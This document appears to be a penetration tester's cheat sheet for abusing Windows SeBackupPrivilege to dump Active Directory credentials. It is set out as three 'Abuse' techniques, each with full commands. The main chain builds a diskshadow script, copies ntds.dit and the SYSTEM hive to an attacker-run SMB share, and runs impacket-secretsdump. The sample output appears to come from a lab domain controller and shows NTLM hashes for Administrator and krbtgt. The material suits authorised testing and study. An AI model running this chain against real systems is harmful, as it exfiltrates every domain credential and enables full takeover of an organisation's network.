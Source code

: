 ```yaml
---
title: "SeBackupPrivilege/SeRestorePrivilege"
date: 2024-7-18
tags: ["Credential Dumping", "File System", "SeBackupPrivilege", "SeRestorePrivilege", "Windows", "Backup Operators", "Diskshadow"]
---
```


### Abuse #1: Robocopy

```console
# For example
robocopy /b <TARGET_DIR_PATH> C:\Windows\Tasks <TARGET_FILE>
```

---

### Abuse #2: Using helper dlls

```console
import-module .\SeBackupPrivilegeCmdLets.dll
```

```console
import-module .\SeBackupPrivilegeUtils.dll
```

```console
Copy-FileSeBackupPrivilege <TARGET_FILE_PATH> C:\ProgramData\<TARGET_FILE>
```

```console
# For example
Copy-FileSeBackupPrivilege C:\Windows\ntds\ntds.dit C:\ProgramData\ntds.dit
```

<small>*Ref: [SeBackupPrivilegeUtils.dll](https://github.com/giuliano108/SeBackupPrivilege/blob/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll?raw=true)*</small>
<br>
<small>*Ref: [SeBackupPrivilegeCmdLets.dll](https://github.com/giuliano108/SeBackupPrivilege/blob/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll?raw=true)*</small>

---

### Abuse #3: Diskshadow

#### 1. Create a .dsh file

```console
set context persistent nowriters
set metadata C:\ProgramData\test.cab
set verbose on
add volume c: alias test
create
expose %test% x:
```

<br>

```console
# Convert to dos format
unix2dos vss.dsh
```

#### 2. Run vss.dsh

```console
# Upload and run
diskshadow /s C:\ProgramData\vss.dsh
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\svc_backup\Documents> diskshadow /s C:\ProgramData\vss.dsh
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  9/24/2024 5:54:17 PM

-> set context persistent nowriters
-> set metadata c:\windows\tasks\test.cab
-> set verbose on
-> add volume c: alias test
-> create

Alias test for shadow ID {89fcc72a-ef5d-4fc0-9f6c-c936c3ce6491} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {fa58db67-4686-4a2b-8f7e-2bc95503aa4a} set as environment variabl
Inserted file Manifest.xml into .cab file test.cab
Inserted file DisAF3.tmp into .cab file test.cab

Querying all shadow copies with the shadow copy set ID {fa58db67-4686-4a2b-8f7e-2bc95503aa4a}

        * Shadow copy ID = {89fcc72a-ef5d-4fc0-9f6c-c936c3ce6491}               %test%
                - Shadow copy set: {fa58db67-4686-4a2b-8f7e-2bc95503aa4a}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{6cd5140b-0000-0000-0000-602200000000}\ [C:\]
                - Creation time: 9/24/2024 5:54:18 PM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
                - Originating machine: DC01.BLACKFIELD.local
                - Service machine: DC01.BLACKFIELD.local
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %test% x:
-> %test% = {89fcc72a-ef5d-4fc0-9f6c-c936c3ce6491}
The shadow copy was successfully exposed as x:\.
->
```

#### 3. Host a smb server (In Linux)

```console
impacket-smbserver share . -smb2support
```

```console {class="sample-code"}
$ impacket-smbserver share . -smb2support                                  
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
...[SNIP]...
```

#### 4. Copy to local Linux

```console
net use \\<LOCAL_IP>\share
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\svc_backup\Documents> net use \\10.10.14.31\share
The command completed successfully.
```

```console
Copy-FileSeBackupPrivilege x:\Windows\ntds\ntds.dit \\<LOCAL_IP>\share\ntds.dit
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\svc_backup\Documents> Copy-FileSeBackupPrivilege x:\Windows\ntds\ntds.dit \\10.10.14.31\share\ntds.dit
```

```console
reg.exe save hklm\system \\<LOCAL_IP>\share\system
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\Users\svc_backup\Documents> reg.exe save hklm\system \\10.10.14.31\share\system
```

#### 5. Secrets dump

```console
impacket-secretsdump -ntds ntds.dit -system system LOCAL
```

```console {class="sample-code"}
$ impacket-secretsdump -ntds ntds.dit -system system LOCAL
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:7f82cc4be7ee6ca0b417c0719479dbec:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
...[SNIP]...
[*] Cleaning up...
```